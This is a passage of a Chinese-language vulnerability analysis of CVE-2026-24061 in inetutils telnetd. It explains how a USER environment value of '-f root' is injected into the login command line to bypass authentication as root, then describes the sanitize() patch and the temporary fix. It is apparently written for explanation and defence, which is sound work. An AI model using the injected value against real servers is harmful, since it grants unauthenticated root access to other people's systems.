  
  
img  
```
cmd = expand_line (login_invocation);
```  
  
  
  
img  
```
exp.cp = (char *)line;    _expand_block(&exp); 
```  
  
该函数对login_invocation开始展开  
  
  
  
img  
  
  
  
img  
```
      _expand_cond (exp);
```  
  
展开条件  
  
  
  
img  
  
**解析前半部分**  
：  
  
模板引擎逐字复制 -p -h  
  
遇到 %h  
，调用 _expand_var(exp)  
，将其展开为客户端的主机名或IP地址（例如 192.168.1.100  
）。此时中间结果为 -p -h 192.168.1.100  
  
**进入条件块****%?u****（关键决策点）**  
：  
  
遇到 %?u  
，_expand_cond()  
 被调用  
  
_expand_cond()  
 看到 ?  
，知道这是一个条件判断。它先尝试展开 %u  
  
%u  
 代表“已认证的用户名”。在攻击场景下，攻击者没有进行任何认证，因此 _expand_var()  
 在处理 %u  
 时返回 NULL  
  
由于 p  
 为 NULL  
（%u  
 无值），_expand_cond()  
 执行 else  
 分支：  
  
_skip_block(exp)  
：跳过第一个块 {-f %u}  
。这个块本意是“如果已认证，就添加 -f  
 参数和用户名”  
  
_expand_block(exp)  
：展开第二个块 {%U}  
  
**展开****{%U}****（恶意变量注入）**  
：  
  
_expand_block()  
 开始处理 {%U}  
 内的内容  
  
遇到 %U  
，再次调用 _expand_cond()  
（此时没有 ?  
，进入else  
分支）  
  
_expand_var(exp)  
 被调用以处理 %U  
  
%U  
 的含义是：USER  
 环境变量的值。  
  
由于漏洞前期 suboption()  
 函数已成功设置了 USER='-f root'  
，且 scrub_env()  
 未将其清除，此时 getenv("USER")  
 返回的正是 -f root  
  
因此，%U  
 被展开为字符串 -f root  
，并附加到结果中  
  
  
  
img  
```
p = _var_short_name (exp);
```  
  
  
  
img  
  
**最终拼接**  
：  
  
将所有部分拼接起来，最终的登录命令变为：login -p -h 192.168.1.100 -f -f root  
（第一个 -f  
 默认参数，第二个 -f root  
 来自注入的变量。对于 login  
 程序，-f  
 意味着“跳过密码验证”，其后的 root  
 是要登录的用户。）  
## 官方修复  
#### 完全修复  
  
  
  
img  
  
**1. 修复策略：源头修复**  
  
补丁没有仅仅修复 USER  
 变量，而是创建了一个通用的 sanitize()  
 函数，对所有可能被用于构建命令行的变量进行统一过滤。  
```
static char * sanitize (const char *u) {    /* 忽略以 '-' 开头或包含Shell元字符的值，因为它们可能引发问题 */    if (u && *u != '-' && !u[strcspn (u, "\t\n !\"#$&'()*:;<=>?[\\^`{|}~")])        return u;    else        return ""; // 或返回空字符串}
```  
  
**2. 修复范围：全面覆盖**  
  
补丁将 sanitize()  
 函数应用到了 _var_short_name()  
 函数中所有从不可信来源获取的变量  
  
这种全面过滤的策略防止了攻击者未来可能从其他参数寻找注入点。  
  
**3. 过滤规则：双重检查**  
  
sanitize()  
 函数执行两个关键检查：  
  
不以破折号开头 (*u != '-'  
)：防止值被解释为命令行参数（如 -f  
、--option  
）。  
  
不包含Shell元字符：使用 strcspn()  
 检查是否包含空白字符和 ! \" # $ & ' ( ) * ; < = > ? [ \ ^  
~` 等可能被Shell用于命令分隔、重定向或扩展的特殊字符。  
#### 临时修复  
  
  
  
img  
```
case 'U':{    /* Ignore user names starting with '-' or containing shell       metachars, as they can cause trouble. */    char const *u = getenv("USER");    return xstrdup((u && *u != '-'                    && !u[strcspn(u, "\t\n !\"#$&'()*;<=>?[\\^`{|}~")])                   ? u : "");}
```  
  
**修复逻辑**  
：  
  
检查是否以 -  
 开头：*u != '-'  
  
检查是否包含Shell元字符：!u[strcspn(u, "危险字符集")]  
  
如果检查失败，返回空字符串：? u : ""  
## 参考  
  
https://www.openwall.com/lists/oss-security/2026/01/20/2  
  
https://codeberg.org/inetutils/inetutils/commit/ccba9f748aa8d50a38d7748e2e60362edd6a32cc  
  
https://codeberg.org/inetutils/inetutils/commit/fd702c02497b2f398e739e3119bed0b23dd7aa7b  
  
https://nvd.nist.gov/vuln/detail/CVE-2026-24061  
## 广告时间  
  
[](https://mp.weixin.qq.com/s?__biz=Mzg2Nzk0NjA4Mg==&mid=2247510993&idx=1&sn=9c3325d8e93033eb13dee448cf4a81b9&scene=21#wechat_redirect)  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
